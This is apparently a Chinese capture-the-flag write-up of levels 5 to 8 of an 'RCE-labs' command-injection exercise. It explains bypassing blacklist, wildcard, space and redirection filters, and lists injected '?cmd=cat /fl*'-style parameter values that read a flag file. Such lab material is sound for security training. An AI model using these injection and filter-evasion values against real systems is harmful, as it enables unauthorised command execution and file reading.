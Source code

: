 ## [RCE-labs]Level 5 - 黑名单式过滤
此题发现flag被过滤掉了，还是先查看根目录

![image](https://github.com/user-attachments/assets/fcf033f0-4fb3-4e78-b460-4640e572db96)

直接用''绕过，得到flag

![image](https://github.com/user-attachments/assets/a0732669-6aea-4103-bdee-15d489fd79f5)

```
或者这样
?cmd=cat /?lag
?cmd=cat /????
?cmd=cat /fl*
?cmd=cat /fl*？
?cmd=cat /fla[a-z]
?cmd=cat /fla[^1-2]
?cmd=cat /fla\g
```
## [RCE-labs]Level 6 - 通配符匹配绕过
这道题提示用通配符过滤，发现a没有被过滤，直接找到flag

![image](https://github.com/user-attachments/assets/ee7d1a04-edb5-4f1c-bd72-d1f3dea869eb)

或者通过八进制绕过，先查看目录，发现flag在根目录下

![image](https://github.com/user-attachments/assets/7c714799-a237-4ee6-b07f-9adc646ec020)

找到flag

![image](https://github.com/user-attachments/assets/16bbf290-05ef-4a2c-be34-7b0b133b3d74)

## [RCE-labs]Level 7 - 空格过滤
直接用%09和\绕过即可

![image](https://github.com/user-attachments/assets/0d34d5d3-b168-4249-b31c-3567274c853c)

## [RCE-labs]Level 8 - 文件描述和重定向
这题考察重定向，可以用分号绕过

![image](https://github.com/user-attachments/assets/46bdd103-0d46-45b2-a352-71b77d46df5e)

![image](https://github.com/user-attachments/assets/457053e2-7880-4fd6-83b2-062d8dee4566)
